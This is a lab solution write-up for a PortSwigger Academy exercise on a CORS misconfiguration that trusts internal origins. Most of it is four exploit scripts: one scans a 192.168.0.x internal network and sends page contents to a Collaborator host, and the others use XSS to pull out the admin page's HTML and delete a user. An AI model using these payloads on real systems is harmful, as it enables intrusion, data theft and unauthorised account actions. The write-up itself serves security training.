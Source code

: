 # CORS vulnerability with internal network pivot attack

## Description

The website of [this lab](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack) has an insecure CORS configuration in that it trusts all internal network origins, and requires multiple steps to complete. 

## Reproduction and proof of concept

1. Scan the local network for the endpoint. Replace `$collaboratorPayload` with your own Collaborator payload or exploit server URL. Enter the following code into the exploit server. Click **Store**, then **Deliver exploit to victim**. Inspect the log or the Collaborator interaction and look at the code parameter sent to it.

```text
<script>
var q = [], collaboratorURL = 'http://$collaboratorPayload';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
	.catch(e => {
		if(q.length) {
			q.shift()(wait);
		}
	});
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

2. Clear the code from stage 1 and enter the following code in the exploit server. Replace `$ip` with the IP address and port number retrieved from your collaborator interaction. Don't forget to add your Collaborator payload or exploit server URL again. Update and deliver your exploit. We will now probe the username field for an XSS vulnerability. You should retrieve a Collaborator interaction with `foundXSS=1` in the URL or you will see `foundXSS=1` in the log.

```text
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
</script>
```

3. Clear the code from stage 2 and enter the following code in the exploit server. Replace `$ip` with the same IP address and port number as in step 2 and don't forget to add your Collaborator payload or exploit server again. Update and deliver your exploit. Your Collaborator interaction or your exploit server log should now give you the source code of the admin page.

```text
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://$ip", "http://$collaboratorPayload");
</script>
```

4. Read the source code retrieved from step 3 in your Collaborator interaction or on the exploit server log. You'll notice there's a form that allows you to delete a user. Clear the code from stage 3 and enter the following code in the exploit server. Replace `$ip` with the same IP address and port number as in steps 2 and 3. The code submits the form to delete carlos by injecting an `iframe` pointing to the `/admin` page.

```text
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
	fetch(url).then(r=>r.text().then(text=>
	{
	xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
	}
	))
}

fetchUrl("http://$ip");
</script>
```

Click on **Deliver exploit to victim** to submit the code. Once you have submitted the form to delete user carlos then you have completed the lab.

## Exploitability

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. The provided exploit server and/or Burp Collaborator's default public server must be used._
